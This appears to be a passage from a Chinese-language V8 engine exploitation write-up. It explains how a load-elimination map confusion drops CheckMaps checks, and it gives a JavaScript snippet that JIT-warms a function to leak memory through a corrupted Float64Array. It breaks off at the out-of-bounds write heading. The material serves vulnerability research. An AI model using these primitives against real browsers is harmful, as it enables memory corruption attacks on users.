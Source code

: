 [![](https://p4.ssl.qhimg.com/t01b93a75d19c7ee967.png)](https://p4.ssl.qhimg.com/t01b93a75d19c7ee967.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0168a1f8b4f949d959.png)

可以看到由于上面提到的错误的映射，[maps](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/load-elimination.cc;drc=34da4407648871eca12e13e607545c0a64a83c1c;l=753?q=LoadElimination::ReduceCheckMaps&amp;ss=chromium/chromium/src).[contains](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/zone/zone-handle-set.h;drc=34da4407648871eca12e13e607545c0a64a83c1c;l=84)([object_maps](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/load-elimination.cc;drc=34da4407648871eca12e13e607545c0a64a83c1c;l=758?q=LoadElimination::ReduceCheckMaps&amp;ss=chromium/chromium/src))将会返回true从而将checkmaps消除掉，这样就可以实现越界读了。

这里有需要注意的地方：

混淆的对象不能随意选择，比如const [object_1, object_2] = createCorruptedPair(array, 111.223);此时他会将111.223当作数组去使用：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01715697db473ed85f.png)

[![](https://p5.ssl.qhimg.com/t010a048a7a32da08ba.png)](https://p5.ssl.qhimg.com/t010a048a7a32da08ba.png)

可以看到它会根据偏移去取elements中的内容，对于111.223来说他的对应偏移处的值为0x3ff19999（由于指针压缩，这里会将0x3ff19999+$r13的值作为elements指针进行访问，可以看到此时触发了0地址解引用）。

如果修改为：

```
const buf12 = new ArrayBuffer(8);
const flo = new Float64Array(buf12);
const [object_1, object_2] = createCorruptedPair(array, flo);

jit = (object) =&gt; `{`
return object.corrupted_prop[2];
`}`

for (var i = 0; i &lt; 100000; ++i)
jit(object_1);
var leak = jit(object_2);

console.log('0x' + hex(d2u(leak)[1]));
```

此时就会根据Float64Array的elements来进行越界读，下面是一个简单的例子：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01939162377d787c7b.png)

### 3.2越界写

初尝试：
